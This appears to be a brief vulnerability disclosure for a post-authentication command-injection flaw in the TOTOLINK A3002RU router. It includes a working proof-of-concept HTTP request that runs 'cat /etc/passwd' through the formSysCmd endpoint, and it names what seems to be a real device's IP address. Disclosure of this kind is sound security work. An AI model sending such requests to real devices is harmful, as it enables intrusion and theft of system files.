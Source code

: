 ## TOTOLINK-A3002RU-RCE

Vendor:TOTOLINK
Product:TOTOLINK-A3002RU
Version: TOTOLINK-A3002RU V2.0.0-B20190902.1958
Link:http://www.totolink.cn/

### description
TOTOLINK-A3002RU has a post-auth rce due to the incorrect access control vulnerability, attackers can bypass front-end security restrictions by using burpsuite or smth like that


POC:

```
POST /boafrm/formSysCmd HTTP/1.1
Host: IP
Content-Length: 101
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://113.53.30.58:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Chrome/110.0.0.0 Safari/537.36
Accept:
text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.
8,application/signed-exchange;v=b3;q=0.7
Referer: http://113.53.30.58:8443/syscmd.htm
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

submit-url=%2Fsyscmd.htm&sysCmdselect=5&sysCmdselects=0&save_apply=Run+Command&sysCmd=c
at+/etc/passwd
```

video:

https://github.com/xieqiang11/security_research/assets/149745918/920fa305-e48d-42d2-bd02-61a4ea49bb43
